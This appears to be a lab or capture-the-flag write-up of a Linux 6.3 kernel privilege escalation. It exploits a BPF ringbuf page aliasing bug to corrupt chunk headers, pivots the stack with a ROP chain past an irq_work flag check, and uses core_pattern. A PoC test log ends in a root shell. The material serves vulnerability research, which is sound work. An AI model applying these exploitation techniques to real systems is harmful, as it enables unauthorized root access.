 **kernel version using** 
6.3 commit `457391b0380335d5e9a5babdec90ac53928b23b4`

- buf大小选择16K，nr_meta_pages = 4, 这样[0, 0x1000] 与 [0x4000, 0x5000]是同一个page, 0x4000指向了chunk A's hdr
分配出A - [0, 0x3000], B - [0x3008, 0x6000], 通过B's 0x4000可以修改A的hdr meta数据。

```
		if (i >= nr_meta_pages)
			pages[nr_data_pages + i] = page;
```


所有的rop必须在[_stext, _etext]之间，否则会触发NX错误：  
```
81.766165] kernel tried to execute NX-protected page - exploit attempt? (uid: 1000)
[   81.792896] BUG: unable to handle page fault for address: ffffffff8299a052
[   81.810767] #PF: supervisor instruction fetch in kernel mode
[   81.823853] #PF: error_code(0x0011) - permissions violation
ts[0[  ] 81:. 853,6 socket248] PGD 3c46067 P4D 3c46067 PUD 3c47063 PMD 80000000028001e1
[   81.851043] Oops: 0011 [#1] PREEMPT SMP PTI
```

stack pivot rop 未找到rsp设置成功后避开+0x20的rop，+0x20处是flag，最低位为0x22可绕过:  
`irq_work_claim`有flag检查` if (oflags & IRQ_WORK_PENDING)`, 选择地址地末位是0x22的rop：`pop r13, pop r14, pop rbp, ret`

```
0x22 == CSD_TYPE_IRQ_WORK(0x20) | IRQ_WORK_BUSY (0x02);
IRQ_WORK_PENDING = 0x1
struct irq_work {
	struct __call_single_node node;
	void (*func)(struct irq_work *);
	struct rcuwait irqwait;
};

struct __call_single_node {
	struct llist_node	llist;
	union {
		unsigned int	u_flags;
		atomic_t	a_flags;
	};
#ifdef CONFIG_64BIT
	u16 src, dst;
#endif
};
```
*test:*   
```
$ ./poc
Hello World!
ringbuf after create map: 3
try to wait core
[   95.464768] BUG: scheduling while atomic: poc/354/0x00010002
[   95.478632] Modules linked in:

progfd: 4
sock[   95.486469] Preemption disabled at:
[   95.486474] [<ffffffff81310e23>] irq_work_queue+0x23/0x50
ets[0]: 5, socke[   95.508029] CPU: 1 PID: 354 Comm: poc Not tainted 6.3.0 #93
[   95.526632] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS 1.16.3-debian-1.16.3-2 04/01/2014
t[1]: 6
[   95.599172] Call Trace:
[   95.677927] ------------[ cut here ]------------
[   95.683175] Voluntary context switch within RCU read-side critical section!
[   95.683816] WARNING: CPU: 1 PID: 354 at kernel/rcu/tree_plugin.h:318 rcu_note_context_switch+0x62c/0x690
[   95.713178] Modules linked in:
[   95.718262] CPU: 1 PID: 354 Comm: poc Tainted: G        W          6.3.0 #93
[   95.735521] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS 1.16.3-debian-1.16.3-2 04/01/2014
[   95.752900] RIP: 0010:rcu_note_context_switch+0x62c/0x690
[   95.762138] Code: 00 00 00 00 0f 85 0d fd ff ff 49 89 8c 24 a0 00 00 00 e9 00 fd ff ff 48 c7 c7 a8 24 27 83 c6 05 75 08 ce 02 01 e8 a4 82 f6 ff <0f> 0b e9 3b fa ff ff 49 83 bc 24 98 00 00 00 00 49 8b 84 24 a0 00
[   95.793147] RSP: 0018:ffffc900009adf40 EFLAGS: 00010086
[   95.801582] RAX: 0000000000000000 RBX: ffff88813bcb3700 RCX: 0000000000000000
[   95.814821] RDX: 0000000000000003 RSI: 0000000000000027 RDI: 00000000ffffffff
[   95.828898] RBP: 0000000000000000 R08: 00000000ffffdfff R09: 0000000000000001
[   95.840645] R10: 00000000ffffdfff R11: ffffffff83c7afa0 R12: ffff88813bcb2880
[   95.854500] R13: ffff888102acb240 R14: 0000000000000000 R15: 0000000000000000
[   95.871507] FS:  0000000000da2380(0000) GS:ffff88813bc80000(0000) knlGS:0000000000000000
[   95.890278] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[   95.901485] CR2: 00000000004b9000 CR3: 0000000102a02000 CR4: 0000000000050ee0
[   95.918447] Call Trace:
[   95.925747] ---[ end trace 0000000000000000 ]---
[   96.027876] poc[355]: segfault at 0 ip 000000000040248d sp 00007ffc781827d0 error 6 in poc[401000+89000] likely on CPU 1 (core 1, socket 0)
[   96.075993] Code: df e8 97 fb 01 00 ba 10 00 00 00 4c 89 ee 48 89 ef e8 47 ec ff ff 85 c0 0f 85 4f ff ff ff 48 8d 3d d6 7b 08 00 e8 03 46 00 00 <48> c7 04 25 00 00 00 00 00 00 00 00 0f 0b 0f 1f 44 00 00 f3 0f 1e
check core: /proc/sys/kernel/core_pattern
Root shell !!
FLAG{test-by-hxqu}
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
root@wintermute:/#
root@wintermute:/# whoami
root
```



when sweep consumer and producer,  as userspace to be the producer, and this time more memory can mapped to userspace

